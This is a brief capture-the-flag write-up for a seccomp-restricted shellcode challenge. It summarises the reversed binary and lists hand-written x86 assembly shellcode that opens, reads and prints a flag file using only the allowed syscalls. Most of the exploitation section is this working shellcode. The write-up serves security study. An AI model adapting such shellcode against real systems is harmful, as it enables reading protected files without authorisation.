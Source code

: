 reversing
=========

- takes 200 bytes of shellcode and executes it
- calls orw_seccomp function which ensures only open, read, and write syscalls can be used (no execv)


exploitation
============

super simple. here is the shellcode i wrote:

```asm
push 0
push 0x67616c66 // "ag"
push 0x2f2f2f77 // "w/fl"
push 0x726f2f65 // "e/or"
push 0x6d6f682f // "/hom"

mov eax, 5
mov ebx, esp
xor ecx, ecx // O_RDONLY
xor edx, edx // file already exists
int 0x80

mov ebx, eax
mov eax, 3
mov ecx, 0x0804a060 // where our shellcode is stored
sub ecx, 50         // prob enough space
mov edx, 50         
int 0x80

mov eax, 4
mov ebx, 1
mov ecx, 0x0804a060
sub ecx, 50
mov edx, 50
int 0x80
```

